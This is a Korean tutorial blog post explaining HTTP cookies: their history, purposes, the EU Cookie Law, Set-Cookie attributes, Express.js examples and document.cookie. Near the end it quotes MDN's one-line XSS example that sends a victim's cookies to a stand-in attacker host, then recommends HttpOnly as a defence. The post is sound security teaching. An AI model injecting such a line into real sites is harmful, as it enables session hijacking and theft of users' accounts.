






# Cookie

우리는 집에서 웹서비스를 이용할 때 팝업창에 '1주일간 보지 않기'나 '로그인 유지'와 같은 기능을 마주치곤 합니다. 또는 웹사이트의 테마를 다크모드로 변경했는데 브라우저를 껐다 켜도 유지되는 매우 신기한 현상을 마주하곤 합니다. 이 신비로운 현상의 원리가 궁금하여 조사해보니 이 기능의 뒤에는 `Cookie`라는 기술이 숨어있었습니다.




(https://www.sony.net/ 소니 공식 홈페이지 접속 시 나타나는 쿠키 허용 팝업)

 웹 사이트, 특히 해외 웹사이트를 이용하시다 보면 위와 같이 '쿠키를 허가해주세요'라는 문구를 볼 수 있습니다. `쿠키`가 뭘까요? 뭐길래 이렇게 허가를 요청하면서 그들은 얻고 싶어 할까요?

`HTTP Cookie`란 인터넷 사용자가 어떤 웹사이트를 방문할 경우 사용자의 웹 브라우저를 통해 인터넷 사용자의 컴퓨터, 혹은 다른 기기에 설치되는 작은 기록 정보 파일을 일컫습니다. `쿠키`, `웹 쿠키`, `브라우저 쿠키`라고도 부릅니다. 이 기록 파일에 담긴 정보는 인터넷 사용자가 같은 웹사이트를 방문할 때마다 읽히고 수시로 새로운 정보로 바뀝니다. `쿠키`는 넷스케이프의 개발자였던 루 몬틀리Lou Montulli가 고안하였습니다. 쿠키라는 명칭은 유닉스 개발자들이 사용한, 프로그램이 수신 후 변경하지 않은 채로 반환하는 데이터의 패킷을 의미하는 `매직 쿠키`라는 용어에서 비롯되었지요.

쿠키는 소프트웨어는 아니라서 바이러스를 옮길 순 없지만, `스파이웨어`를 통해 유저의 브라우징 행동을 추적하거나, 쿠키를 훔쳐 해당 사용자의 웹 계정을 해킹할 수 있으니 웹 보안에서 많은 신경이 필요한 정보입니다.


쿠키는 1. 이름 / 2. 값 / 3. 0개 이상의 속성(이름/값의 쌍)으로 구성됩니다. 여기서 속성은 쿠키의 만료 기간, 도메인, `Secure`/`HttpOnly`등의 플래그 정보를 저장합니다.

쿠키를 직접 확인해보고 싶으시다면 웹 사이트 내에서 개발자도구(F12)의 `Application` 탭에서 직접 찾아볼 수 있습니다.



(네이버 홈에서 확인할 수 있는 쿠키 정보들)


쿠키는 주로 다음의 세 가지 목적을 위해 사용됩니다.

1. 세션 관리: 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
2. 개인화: 사용자 선호, 테마 등의 세팅
3. 트래킹: 사용자 행동을 기록하고 분석하는 용도

이렇듯 쿠키는 개인에 관한 많은 정보를 담고 있습니다. 특히 로그인 정보나 행동 기록 정보는 민감한 개인 정보이기 때문에 웹 서비스가 이를 수집 할 때는 사용자의 허가를 받아야 하는 것입니다.

 해외 서비스를 이용할 때 이 '쿠키 허가'를 더 자주 볼 수 있는 이유는 EU에는 쿠키법이 있기 때문입니다. `Cookie Law` / `Cookie Directive`는 EU 회원국에서의 쿠키정보 수집 시 사전 고지 및 동의 의무에 관해 규정하고 있습니다. 이 쿠키법은 2011년 5월 25일 발효되었고, 이후 EU 회원국들은 자국의 상황에 맞추어 쿠키법을 수정 및 적용해 왔습니다. 따라서 해외 사이트 특히 유럽이나 영미권의 국가 사이트에서 '쿠키 허가' 팝업을 더 자주 볼 수 있는 것이죠.


이번에는 쿠키를 직접 만들어보겠습니다.

`HTTP Protocol`의 `Set-Cookie` 헤더의 형태는 아래와 같습니다.

```
Set-Cookie: name=value [; expires=date] [; path=path] [; domain=domain] [; secure]
```

* `name=value`: 필수 속성입니다. 이름과 값 모두 큰따옴표로 감싸지 않은 세미콜론, 쉼표, 등호, 공백을 포함하지 않는 문자열이어야 합니다.
* `expires`: 선택 속성입니다. 쿠키의 만료일을 나타냅니다. 날짜의 형식은 `요일, DD-MM-YY HH:MM:SS GMT`입니다. 사용할 수 있는 타임존은 GMT 뿐이고 날짜 요소 간 구분자는 `-`를 사용합니다. 쿠키에 `expires`를 명시하지 않으면 `세션 쿠키`가 됩니다. 이에 대해서는 후에 쿠키의 라이플 사이클에 대해 다루면서 말씀드리겠습니다.
* `domain`: 선택 속성입니다. 브라우저는 이 속성에 기술된 도메인을 사용하는 서버 호스트에만 쿠키를 전송합니다. 도메인이 명시돼 있지 않으면 `Set-Cookie` 응답을 생성한 서버의 호스트를 기본값으로 사용합니다.
* `path`: 선택 속성입니다. `path` 속성에 기술된 값이 URL 경로의 앞부분과 일치하면 쿠키를 전송합니다. 만약 경로를 명시하지 않으면 Set-Cookie 응답을 전달하는 URL 의 경로가 사용됩니다.
* `secure`: 선택 속성입니다. 이 속성이 포함돼 있으면 쿠키는 HTTP가 SSL 보안 연결을 사용할 때만 쿠키를 전송합니다.
  * `SSL`: Secure Sockets Layer 암호화 기반 인터넷 보안 프로토콜, SSL을 사용하는 웹사이트의 URL에는 `HTTP` 대신 `HTTPS`가 사용됩니다.

Express.js 를 사용하여 직접 쿠키를 브라우저에 저장해보겠습니다.

```js
app.get("/cookie", function (req: Request, res: Response) {
  console.log("Cookies: ", req.cookies);
  res.cookie("cookiekey", "cookie_value");
  res.send("");
});
```




`/cookie` URL로 접속한 결과 성공적으로 쿠키가 저장된 것을 확인할 수 있습니다. 또한 `Domain`, `Path`, `Expires`등의 속성 값이 자동으로 설정된 것도 확인할 수 있습니다.

또한 해당 URL로 처음 접속했을 때는 위 코드에서의 `req.cookies`는 `Cookies:  [Object: null prototype] {}`로 빈 객체를 나타냈습니다. 하지만 이후 두 번째 접속 이후부터는 `Cookies:  { cookiekey: 'cookie_value' }`로 해당 쿠키가 클라이언트 요청의 헤더로 같이 왔음을 알 수 있습니다.

더욱 자세한 쿠키 설정을 하고 싶다면 위 코드의 `res.cookie`의 인자 값을

```JS
res.cookie('name', 'tobi', { domain: '.example.com', path: '/admin', secure: true });
res.cookie('rememberme', '1', { expires: new Date(Date.now() + 900000), httpOnly: true });
```

위와 같은 방식을 예시로 하여 바꾸어 이용할 수 있습니다.

여기서 `expires: new Date()` 부분을 통해 쿠키의 만료 기간을 설정할 수 있습니다. 이 부분을 명시하지 않으면 세션이 끝날 때 삭제되는 `세션 쿠키`가 생성됩니다. `세션`이란 간단히 말해 클라이언트와 서버가 연결되어 있는 기간을 의미합니다. 한마디로 **브라우저가 종료될 때** 삭제됩니다. 반대로 만료 기간을 설정하면 `영속적 쿠키`가 생성됩니다. 속성에 명시된 날짜에 삭제되거나, `Max-Age` 속성에 명시된 기간 이후에 자동으로 삭제됩니다.


자바스크립트의 `document.cookie` 프로퍼티를 이용하여 부라우저에서 쿠키에 접근할 수 있습니다. `document.cookie`는 현재 브라우저의 쿠키를 나타냅니다.



자바스크립트에서 이 프로퍼티를 이용해 기존 있던 쿠키의 값을 갱신시킬 수도 있습니다.



물론 만료일이나 경로와 같은 옵션값들도 설정할 수 있습니다.




하지만 자바스크립트에서 이용 가능한 쿠키들은 XSS를 통해 감청될 수 있으므로 주의가 필요합니다. 쿠키는 주로 웹 어플리케이션에서 인증된 세션을 식별하기 위해 사용됩니다. 따라서 쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있습니다. 쿠키를 가로채는 일반적인 방법 중 하나가 어플리케이션 내 XSS 취약점을 이용하는 것입니다.

XSS는 Cross-site Scripting 의 약자로 악의적인 사용자가 공격하려는 사이트에 스크립트를 넣는 기법을 말합니다. 공격을 통해 사이트에 접속하면 삽입된 코드를 실행하여 의도치 않은 행동을 수행시키거나 쿠키나 세션 토큰 등 민감한 정보를 탈취하는 해킹이죠. MDN 문서에서는 XSS 공격을 통한 쿠키 사용에 대한 예시를 다음과 같이 보여줍니다.

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

위와 같은 코드를 웹 어플리케이션 내의 콘솔에서 실행하게 되면 의도치 않게 유저의 정보가 빠져나가게 되는 것입니다.

따라서 `HttpOnly` 쿠키 속성을 통해 자바스크립트를 이용하여 쿠키 값에 접근하는 것을 막아 XSS 공격을 미연에 방지할 수 있습니다. 따라서 자바스크립트로 쿠키를 제어하는 것은 좋은 생각이 아닌 것입니다.


지금까지 웹 사이트에서 사용자의 인증과 개인화를 지속적으로 유지해주는 `쿠키`에 대해 알아보았습니다. 쿠키를 사용함으로써 설정이나 인증 정보를 유지하여 편리함을 얻을 수 있습니다. 하지만 편리함의 이면에 XSS 공격과 같은 사용에 주의해야 할 점 또한 존재합니다. 평소에도 공공장소에서 로그인을 하게된다면 브라우저에서 쿠키 저장을 의도적으로 막아주는 `시크릿 모드`를 사용하거나 이용을 마친 뒤 쿠키를 의도적으로 삭제해주는 습관을 통해 개인정보를 갈취당하는 상황을 미연에 방지시킬 수 있겠다는 말씀을 드리며 글 마칩니다. 읽어주셔서 감사합니다 :)


